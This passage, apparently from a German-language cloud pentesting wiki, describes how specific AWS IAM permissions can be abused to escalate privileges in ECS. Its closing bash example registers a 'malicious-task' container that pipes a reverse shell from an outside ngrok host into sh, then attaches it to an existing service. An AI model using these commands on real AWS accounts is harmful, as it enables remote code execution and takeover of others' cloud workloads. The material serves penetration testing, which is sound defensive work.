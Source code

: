 Du findest **Beispiele für diese Optionen** in **vorherigen ECS privesc Abschnitten**.

**Mögliche Auswirkungen:** Privesc zu einer anderen Rolle, die an Container angehängt ist.

### `ssm:StartSession`

Sieh auf der **ssm privesc page** nach, wie du diese Berechtigung missbrauchen kannst, um **privesc zu ECS**:

{{#ref}}
../aws-ssm-privesc/README.md
{{#endref}}

### `iam:PassRole`, `ec2:RunInstances`

Sieh auf der **ec2 privesc page** nach, wie du diese Berechtigungen missbrauchen kannst, um **privesc zu ECS**:

{{#ref}}
../aws-ec2-privesc/README.md
{{#endref}}

### `ecs:RegisterContainerInstance`, `ecs:DeregisterContainerInstance`, `ecs:StartTask`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen könnte potenziell eine EC2-Instanz in einem ECS-Cluster registrieren und darauf Tasks ausführen. Dadurch könnte der Angreifer beliebigen Code im Kontext der ECS-Tasks ausführen.

- TODO: Ist es möglich, eine Instanz aus einem anderen AWS-Konto zu registrieren, sodass Tasks auf Maschinen ausgeführt werden, die vom Angreifer kontrolliert werden??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

> [!NOTE]
> TODO: Test this

Ein Angreifer mit den Berechtigungen `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet` und `ecs:DescribeTaskSets` kann **einen bösartigen Task-Set für einen bestehenden ECS-Service erstellen und das primäre Task-Set aktualisieren**. Dadurch kann der Angreifer **beliebigen Code innerhalb des Service ausführen**.
```bash
# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
```